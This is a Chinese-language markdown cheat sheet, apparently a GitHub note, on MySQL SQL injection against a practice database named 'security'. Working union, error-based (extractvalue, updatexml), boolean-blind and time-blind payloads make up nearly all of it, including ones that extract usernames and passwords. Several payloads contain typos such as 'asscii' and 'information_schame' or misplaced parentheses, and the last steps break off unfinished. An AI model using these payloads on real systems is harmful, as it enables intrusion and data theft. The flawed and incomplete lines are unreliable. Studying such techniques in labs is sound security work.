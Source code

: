 ## SQL注入之MySQL

### 一、联合注入
联合查询就是SQL语法中的union select语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。</br>
select ~~~~~~ union select~~~~~~</br>
由于虚拟表是二维结构，联合查询会“纵向”拼接，两张虚拟的表。</br></br>
 **-- （1）判断注入点**
我们在可能存在SQL注入变量的后边添加以下payload：
```text
and 1=1 / and 1=2     --回显页面不同(整形判断) 
单引号判断‘            --显示数据库错误信息或者页面回显不同(整形,字符串类型判断) 
 \                    --(转义符) 
-1/+1                 --回显下一个或上一个页面(整型判断)
```
**-- （2）判断注入点为整型还是字符型**</br>
```text
输入and 1=1和and 1=2后发现页面没有变化，判断不是整型注入。</br>
输入’ and 1=1 %23和 ‘ and 1=2%23后发现页面变化，判断为字符注入。</br>
```
**-- （3）使用order by推断字段数，即表中列的数量**
 ```python
order by 4%23        查看页面变化，页面报错说明没有4列，没有保存说明有4列，继续下一个数字的尝试
```
**-- （4）使用union，确认显示位，即会显示的字段**
 ```python
id=-1' union select 1,2,3    查看页面显示1,2,3的位置，即显示位
```
**-- （5）获取数据库名**
 ```python
id=-1' union select 1,database(),3--+      我们得出了数据库名叫security
```
**-- （6）获取数据库表名**
 ```python
id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 3,1),3
```
**-- （7）获取数据库表中所有字段**
 ```python
id=-1'union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),3
```
**-- （8）获取字段中数据**
 ```python
id=-1' union select 1,select( username from users limit 1,1),(select password from users limit 1,1)
```
### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注
**-- 1#获得数据库名长度为8**
```Python
?id=1' and (length(database())=8)%23		#有回显
```
**-- 2#获得数据库名**
```Python
?id=1' and ascii(substr(database(),1,1))<100 %23		#无回显
?id=1' and ascii(substr(database(),1,1))=115 %23		#有回显
```
**-- 3#获得数据库表名个数**
```Python
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23	#有回显
```
**-- 4#获得数据库表名长度**
```Python
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23	
```
**-- 5#获得数据库表名**
```Python
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
**-- 6#获取列名**</br>

**-- 7#获得数据**

### 四、时间盲注
**1#获得数据库名长度**
```Python
?id=1' and if((length(database())>5),sleep(5),1)%23	    #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23	    #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23	    #无时间延迟，说明判断正确
```
**2#获得数据库名**
```Python
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23		#有无回显
```
**3#获得表名（同理先获取长度）**
```Python
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)		#有无回显
```
**4#获取数据库列名（先拿列长度？）**
```Python
?id=1' and if
```
**5#获取数据**
```Python
?id=1' and if
```
